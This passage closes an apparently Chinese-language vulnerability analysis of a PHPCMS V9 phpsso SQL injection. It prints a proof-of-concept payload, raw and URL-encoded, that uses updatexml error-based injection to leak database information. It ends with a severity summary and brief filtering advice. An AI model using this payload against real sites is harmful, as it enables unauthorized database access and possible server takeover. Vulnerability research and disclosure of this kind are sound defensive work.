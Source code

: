 测试poc原文如下：

```
username=phpcms&password=123456&username=' union select '2','test\',updatexml(1,concat(0x5e24,(select user()),0x5e24),1),\'123456\',\'\',\'\',\'\',\'\',\'\',\'2\',\'10\'),(\'2\',\'test','5f1d7a84db00d2fce00b31a7fc73224f','123456',null,null,null,null,null,null,null,null,null#

```

编码后内容如下：

```

username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(select%2buser())%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523
```

效果如下图所示：

![1](/images/content/2015-07-21-poc.png)

## 0x04 总结

这个漏洞分析中，最大的收获是用到漏洞接力这种利用思路来完成由盲注到可报错注入的华丽转身。

### 漏洞小结

影响范围个人评价为“高”，PHPCMS在国内的使用范围非常广，而且此漏洞影响PHPCMS目前主流的V9版本，虽然收到PHP的版本影响，但是目前大多数的服务都已经开始更换PHP版本，所以影响范围还是很广的。

危害性个人评价为“高”，此漏洞只需要可以访问目标网站便可以实现攻击，获取数据库信息，并有很大的可能getshell。

### 防护方案

针对phpsso模块添加过滤代码，最好的方式应该是将转义和过滤放在数据库操作的前一步，这样可以极有效缓解SQL注入带来的问题。